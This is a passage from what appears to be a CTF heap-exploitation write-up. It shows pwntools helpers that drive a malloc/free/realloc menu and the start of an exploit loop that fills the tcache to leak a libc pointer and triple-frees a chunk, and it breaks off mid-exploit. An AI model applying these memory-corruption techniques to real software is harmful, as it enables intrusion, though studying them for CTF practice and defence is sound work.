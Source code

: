 ``` python
    io.readuntil("idx: ")
    io.sendline(str(idx))
    io.readuntil("sz: ")
    io.sendline(str(sz))
    io.readuntil("data: ")
    io.send(text)

    if wait:
        return wait_for_menu()


def do_free(idx, wait=True):
    io.sendline("2")
    io.readuntil("idx: ")
    io.sendline(str(idx))

    if wait:
        wait_for_menu()


def realloc(idx, sz, text, wait=True):
    io.sendline("3")
    io.readuntil("idx: ")
    io.sendline(str(idx))
    io.readuntil("sz: ")
    io.sendline(str(sz))
    io.readuntil("data: ")
    io.send(text)

    if wait:
        return wait_for_menu()

def wait_for_menu():
    return io.readuntil("\n> ")



GDB_OPT = args.GDB
args.GDB = False
```

Were looping here since as I've explained above this only has a 1 in 16 chance of success.

``` python
while True:
    try:
        io = start()

        # Crafting & Overwriting libc-pointer

        do_malloc(0, 0x60, "a")     # soon to be corrupted chunk
        do_malloc(8, 0x100, "a")    # "large chunk"
        do_malloc(9, 0x20, "Blocker\n")  # preventing top-chunk consolidation

        for i in range(8):
            do_free(8)              # filling the Tcache 0x110 freelist and putting it into unsorted
                                    # thus getting a libc pointer
        io.info("Chunk in unsorted")

        do_free(0)                  # Triple free
        do_free(0)          
        do_free(0)

```